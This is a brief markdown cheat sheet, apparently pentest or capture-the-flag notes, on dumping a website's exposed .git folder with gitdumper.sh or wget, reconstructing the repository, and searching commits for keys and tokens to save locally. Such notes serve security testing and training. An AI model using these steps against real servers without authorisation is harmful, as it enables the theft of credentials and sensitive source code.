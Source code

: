 # GIT TOOLS

### Git tools are used when we locate an exposed .git folder that contains an entire repository with possibly sensitive information.

## TIP: USE THE COMMON.TXT WORDLIST TO SUCCESSFULLY ENUMERATE THE .GIT FOLDER!

## STEPS:

#### 1) 

    gitdumper.sh http://WHATEVER/.git/ repo

## Alternate method: wget

    wget -r http://DOMAIN.COM/.git

#### 2) Go to the directory where the .git folder is located

#### 3) 

    /path/to/extractor.sh . App

#### 4) Gets all commits in the repository

    git log 

#### 5) Show all branches a repository has

    git branch -a 

#### 6) See the specific commit in detail

    git show COMMIT_NUMBER 

#### 7) Switch to another branch

    git checkout BRANCH 

#### 8) Check in which branch are we now

    git branch 

#### 9) If we found a file/key/token, we can check the filename upon seeing the commit, then we store it locally with this command

    git show COMMIT_NUMBER^:FILE.json > token.json 
